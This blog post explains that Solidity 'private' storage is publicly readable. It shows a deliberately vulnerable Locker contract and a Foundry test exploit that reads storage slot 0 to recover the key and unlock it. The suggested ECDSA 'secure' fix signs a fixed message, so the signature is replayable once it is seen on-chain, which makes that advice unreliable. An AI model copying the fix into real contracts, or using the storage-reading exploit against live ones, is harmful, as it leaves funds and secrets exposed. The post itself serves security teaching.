 ```yaml
---
title: Not so private Solidity storage
date: '2023-05-09T00:00:00Z'
modifiedTime: '2023-05-09T00:00:00Z'
summary: Introduce private storage vulnerability. A mockup exploitation and potential solutions.
image: 'blogs/blockchain/private_storage/cover.webp'
type: BlogPost
---
```


# Problem introduction

In Solidity, you can define private variables in a contract to keep them hidden from other contracts.
Private variables are only accessible within the contract in which they are defined and cannot be accessed
or modified by other contracts or external users. This behavior is expected from programming languages which support OOP paradigm.

However, it's important to note that private variables are still visible to all participants on the blockchain, including miners and nodes.
This means that the values of private variables are not completely hidden,
and should not be used to store sensitive information such as passwords or private keys.

# An example

We will showcase an exploitation example in Foundry-VM.

## The Locker contract

Let's defined a `Locker` contract with 16bytes `secretKey` as below:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract Locker {
  bool public locked = true; // 1 bytes
  bytes16 private secretKey; // 16 bytes

  constructor(bytes16 _secretKey) {
    secretKey = _secretKey;
  }

  function unlock(bytes16 _key) public {
    require(_key == bytes16(secretKey));
    locked = false;
  }
}

```

## Unlock

If we analyze [storage allocation](https://ethereum.org/en/developers/docs/smart-contracts/anatomy/#data) of the contract above, the result is:

<Image src="/blogs/blockchain/private_storage/storage.webp" width="1200" height="500" caption="Storage layout of Locker contract" />

Having that information in hand, an example unlocker would perform the following step:

1. Inspect the target contract
2. Load from contract storage slot 0
3. Extract `secretKey = bytes[15..30]` from the storage
4. Use the secret key to unlock.

An example mockup is implemented as follows:

```solidity
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "~/private_lock/Locker.sol"; // the defined Locker contract

contract LockerTest is Test {
  Locker public targetLocker;

  function setUp() public {
    bytes16 secretPhrase = bytes16(keccak256(abi.encodePacked(tx.origin, "SECRET_HASH")));
    targetLocker = new Locker(secretPhrase);
  }

  function breakSecret(Locker _targetLocker) internal view returns (bytes16) {
    // Step 1: Identify the contract
    address lockerAddress = address(_targetLocker);
    // Step 2: Retrieve storage data from at block 0 from the smart contract
    bytes32 secretDataBlock = vm.load(lockerAddress, bytes32(uint256(0)));

    // LAYOUT: 15 "0" | 16 (secretKey) | 1 ("locked" status) [SLOT 0]
    // Step 3: Retrieve byte 16th to 31th, which is the secret key.
    bytes16 secretKey = bytes16(secretDataBlock << (15 * 8));

    return secretKey;
  }

  function testUnlockLocker() public {
    // Step 4: Unlock
    bytes16 secretKey = breakSecret(targetLocker);
    targetLocker.unlock(secretKey);

    bool isUnlocked = !targetLocker.locked();
    assertTrue(isUnlocked, "Hacker should break the lock");
  }
}
```

# Prevention

A simple solution to make the contract more secured is using a pre-defined signature as the secret key.
For this example, I use elliptic curve DSA:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";

contract SecureLocker {
  bool public locked = true; // 1 bytes
  address private owner;
  using ECDSA for bytes32;

  constructor(address _owner) {
    owner = _owner;
  }

  function unlock(bytes memory _signature) public {
    // EIP 712 Signature Validation: https://eips.ethereum.org/EIPS/eip-712
    bytes memory eth_msg = abi.encodePacked("\x19Ethereum Signed Message:\n20", "<SECRET_OFFCHAIN_MSG>");
    bytes32 hash = keccak256(eth_msg);
    if (owner == hash.recover(_signature)) {
      locked = false;
    }
  }
}
```

With this setup, the contract owner will store their signature (secret key) offchain and use it on `unlock` calls.

# References

1. [Ethernaut Level 12](https://ethernaut.openzeppelin.com/level/12)
2. [Ethereum storage layout](https://ethereum.org/en/developers/docs/smart-contracts/anatomy/#data)
3. [Ethereum OpCodes](https://ethereum.org/en/developers/docs/evm/opcodes/)
